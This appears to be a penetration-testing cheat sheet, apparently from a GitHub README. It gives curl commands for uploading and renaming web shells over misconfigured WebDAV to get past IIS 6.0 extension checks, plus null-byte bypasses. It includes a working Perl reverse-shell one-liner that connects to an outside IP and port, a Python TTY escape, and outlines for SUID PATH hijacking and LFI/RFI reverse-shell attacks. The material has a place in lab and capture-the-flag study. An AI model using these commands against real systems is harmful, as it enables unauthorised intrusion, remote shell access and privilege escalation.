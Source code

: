 # cURL

IF MODIFY, PUT, MOVE, DELE etc HEADERS are misconfigured.

#### UPLOAD
```
Curl -T ‘location of file’ ‘http://target/name
e.g
      curl -T 'shell.asp' 'http://<IPADDRESS>/shell.asp'
```

#### RENAME

CAN USE THIS TO BYPASS FILE EXTENSIONS Restrictions

```
curl -X MOVE --header 'Destination:http://<TARGETIPADDRESS>/shell.asp;.txt' 'http://<TARGETIPADDRESS>/shell.txt'
e.g
      changing from shell.txt --> shell.asp;.txt

p.s bypasses IIS 6.0 File extensions 
```

#### CREATE DIRECTORY
```
curl -X MKCOL 'http://<IPADDRESS>/test'
```

# NULL BYTES

Bypass File Extentension Restrictions

```
%23
%00
```

# ESCAPE JAIL SHELL
#### USING PERL REVERSE SHELL INTO PYTHON TTY

```
1. Return a Reverse Shell using PERL
/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'

2. Spawn a TTY Shell
/usr/bin/python -c 'import pty; pty.spawn("/bin/sh")'

```

# EXPLOITING SUID FILES SYMLINK
Using strings  "exploit.file"
  - Find a dependency

Change EXPORT path to /tmp/
  - Create a binary file with the same name as dependency
  - Have this file create a reverse shell
Run the misconfigured SUID file, it will return a reverse shell using SUID


# EXPLOITING LFI / RFI
#### BASIC LFI
```
     Log Poisoning
     Using LFI to run an already uploaded backdoor
```
#### BASIC RFI
```
Create a .php reverse shell
Rename file extension to .txt  [ May need to append null bytes depending if headers are included, check apache access logs ]
Navigate to file through RFI exploit
```
